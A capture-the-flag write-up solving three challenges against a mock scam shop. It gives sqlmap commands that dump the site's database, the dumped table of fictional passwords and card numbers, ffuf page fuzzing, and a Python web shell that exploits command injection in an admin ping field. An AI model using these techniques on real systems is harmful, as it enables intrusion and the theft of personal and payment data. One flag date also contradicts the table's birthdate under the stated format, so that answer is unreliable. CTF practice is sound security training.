


## Let me in

Created By: syyntax
DEADFACE is running an e-commerce site in an attempt to scam victims and steal their data and their money! See if you can find a way to access the site. Submit the flag found on the main page.

Submit the flag as flag{flag-text}

TrendyTrove

`sqlmap -u "https://trendytrove.deadface.io/login.php" --data="username=test&password=test" --batch`

Exfiltrate info: `sqlmap -u "https://trendytrove.deadface.io/login.php" --data="username=test&password=test"  --dump-all --exclude-sysdbs --batch`

```
+----+------------+--------------+-------------------------------+-------+--------+--------+--------------------------+---------+----------------------------------+-----------------+---------------+------------+------------------+-------------+
| id | dob        | city         | email                         | state | gender | postal | street                   | country | password                         | username        | last_name     | first_name | credit_card      | credit_type |
+----+------------+--------------+-------------------------------+-------+--------+--------+--------------------------+---------+----------------------------------+-----------------+---------------+------------+------------------+-------------+
| 1  | 1982-08-04 | Paxton       | admin@trendytrove.site        | NE    | Male   | 69155  | 482 Lincoln Ln           | US      | 1bPEt&3r0B#4hQ                   | admin           | admin         | admin      | 5048378931690658 | mastercard  |
| 2  | 1982-09-24 | Atlanta      | lwaddell0@about.me            | GA    | Male   | 30306  | 69333 Oak Center         | US      | 268d470569108828da0b302034b50bcd | lwaddell0       | Waddell       | Lemmie     | 5048375602863747 | mastercard  |
| 3  | 1983-07-11 | Milwaukee    | kanthoine1@sphinn.com         | WI    | Female | 53277  | 2 Briar Crest Trail      | US      | KaraLynn123!                     | kanthoine1      | Anthoine      | Kara-lynn  | 5048373064404738 | mastercard  |
| 4  | 1996-05-11 | Billings     | spepys2@nydailynews.com       | MT    | Male   | 59105  | 2 Brickson Park Crossing | US      | S3cr3tP@ss!                      | spepys2         | Pepys         | Selig      | 5048372118334172 | mastercard  |
| 5  | 1969-03-14 | Camden       | mkivelle3@uiuc.edu            | NJ    | Female | 08104  | 68 Lakeland Street       | US      | Mada1969$                        | mkivelle3       | Kivelle       | Mada       | 5108758659616083 | mastercard  |
| 6  | 1976-02-10 | Hartford     | lschwandermann4@imageshack.us | CT    | Female | 06152  | 5 Farmco Hill            | US      | Lizzie1976@                      | lschwandermann4 | Schwandermann | Lizzie     | 5048373353911013 | mastercard  |
| 7  | 2001-12-11 | San Antonio  | cyurlov5@seattletimes.com     | TX    | Female | 78230  | 71128 Grayhawk Junction  | US      | Concetta2001#                    | cyurlov5        | Yurlov        | Concettina | 5048377120668970 | mastercard  |
| 8  | 1994-08-09 | Inglewood    | etoy6@wiley.com               | CA    | Female | 90305  | 3 Westend Plaza          | US      | Emm@94T0y!                       | etoy6           | Toy           | Emmalee    | 5048376381363693 | mastercard  |
| 9  | 1990-03-05 | Lansing      | yyurlov7@seesaa.net           | MI    | Female | 48912  | 88 Logan Trail           | US      | Yal0nda90$                       | yyurlov7        | Yurlov        | Yalonda    | 5108758291372194 | mastercard  |
| 10 | 1987-03-28 | Las Vegas    | bmatuska8@dmoz.org            | NV    | Male   | 89160  | 771 Barnett Alley        | US      | Benjie1987!                      | bmatuska8       | Matuska       | Benjie     | 5048376962231442 | mastercard  |
| 11 | 1968-07-29 | Philadelphia | ddraysay9@amazon.com          | PA    | Female | 19136  | 0 Huxley Terrace         | US      | D@wn1968%                        | ddraysay9       | Draysay       | Dawn       | 5108757962496860 | mastercard  |
+----+------------+--------------+-------------------------------+-------+--------+--------+--------------------------+---------+----------------------------------+-----------------+---------------+------------+------------------+-------------+


```


Login as admin with `admin:1bPEt&3r0B#4hQ`

FlaG: `flag{Tr3ndy_Tr0v3_$QL_1nj3ct10n}`


## Yolanda

Created By: syyntax
One of the victims that fell for DEADFACE's scam is Yalonda Yurlov. Confirm that her data was exposed by submitting her birthdate as the flag.

Submit the flag as flag{MM/DD/YYYY}. (An American wrote this, so keep that in mind when formatting your dates)

We have the table so we can get this info easily: `flag{05/03/1990}`


## Compromised Data


Created By: syyntax
Several victims provided credit card information to TrendyTrove. We believe DEADFACE kept this information on the web server somewhere. See if you can find the flag associated with this data.

Submit the flag as flag{flag-text}.

For this one I didnt found anything so I fuzzed the web app and found a admin page together with other files:

`ffuf -u https://trendytrove.deadface.io/FUZZ.php -w ~/SecLists/Discovery/Web-Content/big.txt`



There is a functionality in the admin.php that allows a system health check: 



Looking at the network traffic it makes a POST to admin.php with the following parameters: `command=ping+-c2+8.8.8.8&check_status=`

Changing the ping command to a ls we get the contents of the current directory. TO atuomate the process i created a sort of web shell using python:

```python
import requests
from bs4 import BeautifulSoup
import html

url = "https://trendytrove.deadface.io/"
login = "login.php"
admin = "admin.php"

username = "admin"
password = "1bPEt&3r0B#4hQ"

session = requests.Session()

login_data = {
    "username": username,
    "password": password
}

session.post(url + login, data=login_data)

while True:
    command = input("Enter a command: ")

    admin_data = {
        "command": command,
        "check_status": ""
    }
    resp = session.post(url + admin, data=admin_data)

    soup = BeautifulSoup(resp.text, "html.parser")

    pre_tags = soup.find_all("pre")

    for pre in pre_tags:
        decoded_text = html.unescape(pre.text)
        print(decoded_text)
```

The flag is in the outputs/customers.csv file: `flag{C0MM4ND_1NJ3CT10N_3XP0S3D_D4T4}`